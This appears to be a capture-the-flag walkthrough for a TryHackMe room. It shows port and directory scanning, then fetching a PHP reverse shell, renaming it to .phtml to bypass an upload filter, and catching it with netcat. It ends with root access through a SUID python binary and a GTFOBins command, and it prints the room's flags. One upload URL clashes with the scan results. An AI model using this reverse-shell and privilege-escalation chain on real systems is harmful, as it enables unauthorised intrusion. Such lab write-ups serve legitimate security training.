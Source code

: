 # Reconnaissance

### Scan the machine, how many ports are open?
```
┌──(root💀kali)-[~]
└─# nmap -Pn <machine ip>
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```
> *Answer:* 2

### What version of Apache is running?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```
> *Answer:* 2.4.29

### What service is running on port 22?
> *Answer:* ssh

### What is the hidden directory?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "http://<machine ip>/"
...
[01:06:56] 200 -  732B  - /panel/
[01:07:21] 200 -  742B  - /uploads/
...
```
> *Answer:* 


<br><br>
# Getting a shell

### user.txt
```
┌──(root💀kali)-[~]
└─# curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php --output php-reverse-shell.php
```
To gain remote access to this machine, follow these steps:
  1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
  2. Rename this file to php-reverse-shell.phtml
  3. We're now going to listen to incoming connections using netcat. Run the following command: <b>nc -lvnp 1234</b>
  4. Upload your shell and navigate to <b>http://&lt;machine ip&gt;:3333/internal/uploads/php-reverse-shell.phtml&nbsp;</b> - This will execute your payload
  5. You should see a connection on your netcat session
```
┌──(root💀kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.39.82] 47886
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:16:30 up 17 min,  0 users,  load average: 0.00, 0.26, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
> *Answer:* THM{y0u_g0t_a_sh3ll}


<br><br>
# Privilege escalation

### Search for files with SUID permission, which file is weird?
```
$ find / -perm -u=s -type f 2> /dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```
> *Answer:* /usr/bin/python

### root.txt
[GTFOBins](https://gtfobins.github.io/)
```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
ls /root
root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n} 
```
> *Answer:* THM{pr1v1l3g3_3sc4l4t10n}

